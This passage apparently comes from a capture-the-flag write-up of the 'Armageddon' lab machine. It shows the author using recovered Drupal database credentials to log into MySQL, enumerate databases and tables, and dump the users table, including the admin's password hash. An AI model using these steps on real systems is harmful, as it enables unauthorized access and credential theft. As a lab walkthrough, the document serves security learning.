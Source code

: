 ## mysql

At first, I was confused because I could not authenticate:

```sh
armageddon.htb>> mysql -u drupaluser -p CQHEy@9M*m23gBVj 
Enter password: ERROR 1045 (28000): Access denied for user 'drupaluser'@'localhost' (using password: NO)
```

A quick google search led me to this [Stack Overflow](https://stackoverflow.com/questions/5131931/connecting-to-mysql-from-the-command-line) page. I entered the password again without any space between `-p` and the password and it worked!

```sh
-p: password (**no space between -p and the password text**)
```

Used credentials to log into `MySQL`:

```sh
armageddon.htb>> mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'show databases;'                                           

Database
information_schema
drupal                                                                                                                
mysql
performance_schema
```

Further enumeration of the `drupal` database:

```sh
armageddon.htb>> mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'use drupal; show tables;\G'

Tables_in_drupal
...
users
...
```

Getting everything from the `users` table (Append `\G` to the end of your SQL query but before the `;` to print the output in vertical rows for readability):

```sh
armageddon.htb>> mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'use drupal; select * from users\G;'

             uid: 1   
            name: brucetherealadmin
            pass: $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
            mail: admin@armageddon.eu
           theme: 
       signature: 
signature_format: filtered_html
         created: 1606998756
          access: 1607077194
           login: 1607076276
          status: 1
        timezone: Europe/London
        language: 
         picture: 0
            init: admin@armageddon.eu
            data: a:1:{s:7:"overlay";i:1;}
```
